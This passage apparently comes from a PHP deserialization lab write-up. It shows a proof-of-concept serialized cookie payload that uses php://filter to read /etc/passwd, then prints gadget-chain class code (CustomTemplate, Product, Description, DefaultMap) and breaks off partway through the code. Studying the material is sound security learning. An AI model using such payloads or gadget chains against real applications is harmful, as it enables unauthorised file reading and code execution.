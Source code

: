 The PoC cookie value would be something like this:

```php
<@base64>O:9:"PageModel":1:{s:4:"file";s:33:"php://filter/resource=/etc/passwd";}<@/base64>
```

### Custom PHP Object Injection  chain

Class code and gadgets:
```php
<?php

class CustomTemplate {
    private $default_desc_type;
    private $desc;
    public $product;

    public function __construct($desc_type='HTML_DESC') {
        $this->desc = new Description();
        $this->default_desc_type = $desc_type;
        // Carlos thought this is cool, having a function called in two places... What a genius
        $this->build_product();
    }

    ...

	// __wakeup is our kick-off gadget
    public function __wakeup() {
        $this->build_product();
    }

	// build_product do not properly check the desc object type
    private function build_product() {
        $this->product = new Product($this->default_desc_type, $this->desc);
    }
}

class Product {
    public $desc;

    public function __construct($default_desc_type, $desc) {
        $this->desc = $desc->$default_desc_type;
    }
}

class Description {
    public $HTML_DESC;
    public $TEXT_DESC;

    public function __construct() {
        // @Carlos, what were you thinking with these descriptions? Please refactor!
        $this->HTML_DESC = '<p>This product is <blink>SUPER</blink> cool in html</p>';
        $this->TEXT_DESC = 'This product is cool in text';
    }
}

class DefaultMap {
    private $callback;

    public function __construct($callback) {
        $this->callback = $callback;
    }

	// __get is utilized for reading data from inaccessible (protected or private) or non-existing properties.
```